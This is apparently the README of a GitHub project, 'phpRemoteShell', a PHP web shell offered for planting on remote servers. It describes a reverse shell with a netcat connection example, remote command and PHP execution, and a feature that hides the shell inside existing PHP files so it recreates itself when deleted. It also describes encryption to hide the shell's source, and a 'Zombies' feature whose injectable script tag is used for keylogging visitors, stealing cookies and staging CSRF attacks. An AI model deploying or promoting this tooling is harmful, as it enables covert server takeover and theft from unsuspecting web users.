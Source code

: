 # phpRemoteShell

phpRemoteShell is a swiss knife to explore servers through the Web. It contains a PHP reverse shell, a full-featured file browser, the ability to execute shell commands or PHP/SQL/LDAP code, crontab management, and « zombies » management. It can also host itself into existing files and auto-deploy during their execution. In case it has been previously encrypted, it is able to self-decrypt on the fly.

It has been designed to be robust and run with just about all POSIX servers and decent PHP versions. It may look a little rustic sometimes, but it should work everywhere.

PRS will be as quiet as possible, using only POST requests, displaying images using inline tags, keeping session data in its own file instead of cookie where possible, and so on.

## Requirement

You need a POSIX machine with PHP CLI on local, and a POSIX server with a PHP web service up on remote.

## Installation

Basically, you just have to put `prs.php` somewhere on the Web and access it with a POST request (GET requests will display a HTTP 404 error).

The simplest way to request PRS URL once uploaded is to open `launcher.html` with a web browser and fill the form.

You can use PRS _as is_ or you can encrypt it before uploading it on the remote host. Encryption is a guaranty for you that nobody will read the source code neither your authentication parameters if any. Knowing this, you can add what you want in it, your secrets will be well protected, even on remote :-)

To encrypt the script, go to `encryption/` and execute `./crypt yourpasswd`. The final encrypted `prs.php` file will be created in the same directory. This is the file to upload on remote host.

The `launcher.html` file allow you to specify your encryption password before requesting the PRS page.

To force PRS to ask for authentication, edit the script and fill the `Authentication` section constants.

To allow direct download of PRS file, just pass it `prsds=` as URL parameter :

```
http://remote-server/prs.php?prsds=
```

_Note that this will not work if you previously defined `CHECK_AUTH` or if you have encrypted PRS file_.

The original script name of PRS is `prs.php` but you can rename it as you want !

## Usage

### Edit

Allow you to open the `Profiles management` popup to save sessions and retrieve them later.

### Remote information

Displays the result of some common tools, plus the output of the `phpinfo()` function if available.

### Shell

#### Reverse shell

If the remote PHP allows it, let you choose a remote IP and port on which listening with a full PHP reverse shell.

It is just a basic shell, which means that sometimes it will not work and that the connection may be cut of or looped at any time. Some commands will be rewritten (like `ping` or `top`), others will be emulated (like `clear`). It is likely that in dying (when you grab the `shutdown` command from your client) it causes a zombie process.

Use `netcat` or any other client on your local machine to execute bash commands on the remote host.

```bash
you@local~$ nc 192.168.3.5 4000
PRS reverse shell 0.12.1
'quit' to quit, 'shutdown' to kill, 'help' for this help
www-data@192.168.3.5 /var/wwww$
```

#### Command execution

Sometime, reverse shell is not possible. This section allows you to execute bash commands and see their results directly from the PRS web page.

### PHP code

With this feature, you can write PHP code, execute it on the remote host and see the result.

### File browser

PRS file browser allows you a lot of things. You can create/edit/delete files, view symlinks and so on. It looks a lot like the output of the `ls` command, with some improvements.

#### Host me in

This feature of the file browser bottom menu allows you to « host » PRS on another PHP script. If someone ever erases it, it would be automatically recreated by calling this page.

### Crontab

Where possible, it allows you to edit, save or even remove the crontab of the current web user.

### Zombies

_This feature will not work if PRS file has been previously encrypted._ Use it only for fun and non-profit ;-)

You can have fun spying remote user's keyboard, injecting code, stealing cookies and so on. You can also web ping hosts on user's private network before launching CSRF attack for example. But, once again : it is instable, not stealth...

To create a zombie, inject the following HTML code in a web page :
```html
<script src="http://remote-server/prs.php?z=js"></script>
```
Then go to the PRS `Zombies` menu and wait until it appears on the list.

### SQL / LDAP

This menu allows you to access remote SQL or LDAP database assuming you know their access settings. For now it can manage MySQL (`mysql`, `mysqli`, `pdo_mysql`), PostgreSQL (`pgsql`, `pdo_pgsql`) and LDAP. It offers some basic macros, but most of the work will have to be done in SQL.

## License
GPL
